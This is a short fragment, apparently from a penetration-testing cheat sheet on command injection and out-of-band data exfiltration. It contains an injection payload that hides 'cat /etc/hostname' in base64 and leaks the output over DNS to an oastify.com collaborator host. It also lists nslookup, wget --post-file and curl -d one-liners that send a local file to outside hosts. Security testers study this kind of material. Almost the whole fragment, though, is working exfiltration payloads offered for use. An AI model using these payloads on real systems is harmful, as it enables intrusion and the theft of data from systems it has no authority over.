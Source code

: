Obfuscation using base encoding to hide the whole command:

```bash
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```
# Other Methods

Some other methods to achieve data exfiltration include:

```bash
nslookup -q=cname $(cat /home/test).burp.oastify.com
wget http://burp-collab.com --post-file=/home/test
curl http://wcq0jo8.oastify.com -d @/home/test
```

